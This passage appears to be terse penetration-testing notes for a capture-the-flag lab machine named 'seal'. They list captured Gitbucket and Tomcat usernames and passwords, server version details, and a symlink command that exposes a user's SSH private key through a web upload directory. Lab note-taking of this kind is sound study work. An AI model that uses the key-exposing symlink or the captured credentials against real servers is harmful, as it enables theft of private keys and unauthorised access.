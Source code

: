 http://10.10.10.250:8080

Service|username|password|notes|
---|---|---|:---|
Gitbucket|pico|password| created by hacker
||alex|
|gitbucket|luis|42MrHBf\*z8{Z%|
||tomcat|42MrHBf\*z8{Z%|manager-gui,admin-gui|


Tomcat Version|JVM Version|JVM Vendor|OS Name|OS Version|OS Architecture|Hostname|IP Address
|--|--|--|--|--|--|--|--|--|
Apache Tomcat/9.0.31 (Ubuntu)|11.0.11+9-Ubuntu-0ubuntu2.20.04|Ubuntu|Linux|5.4.0-77-generic|amd64|seal|127.0.1.1|


* symlink
`ln -s /home/luis/.ssh/id_rsa /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/ss`